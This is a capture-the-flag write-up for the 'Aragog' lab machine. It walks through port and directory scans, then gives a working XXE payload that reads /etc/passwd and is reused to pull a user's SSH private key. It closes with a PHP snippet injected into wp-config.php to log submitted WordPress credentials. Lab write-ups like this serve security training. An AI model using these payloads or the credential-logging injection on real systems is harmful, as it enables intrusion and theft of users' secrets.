# Aragog Writeup


## Enumeration

#### Port Scanning

```
Nmap scan report for 10.129.220.248
Host is up (0.13s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh
| ssh-hostkey: 
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works

```

#### Directory Fuzzing

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.220.248/
[+] Method:                  GET
[+] Threads:                 15
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,aspx,sh,php,html
[+] Timeout:                 10s
===============================================================
2021/11/23 06:12:48 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/hosts.php            (Status: 200) [Size: 46]   
```

## Initial Access
Navigating to the [hosts.php](http://10.129.220.248/hosts.php), the page dumps a host count. 

Going back to FTP, we can log in as Anonymous, and we see a _test.txt_ file that contains what seems like an XML payload that would be sent to the _hosts.php_ endpoint via a POST request. 

Testing this, we're right. I used [this cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md) to create this payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE details [
<!ELEMENT subnet_mask ANY >
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<details>
<subnet_mask>&file;</subnet_mask>
<test></test>
</details>
```

This succeeds by dumping the contents of /etc/passwd, where I found 2 users, **cliff** and **florian**. I then dump the contents of florian's private ssh key, copy it to my system, and login. 


## Privelege Escalation

Saw that there was a process called `whoopsie` running constantly that simulated an administrator loggin into Wordpress. Added these lines to _wp-config.php_ to output the credentials entered into the form. 


```
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/df", "a");
fwrite($fff, $rrr);
fclose($fff);
```
Got root password and flag.

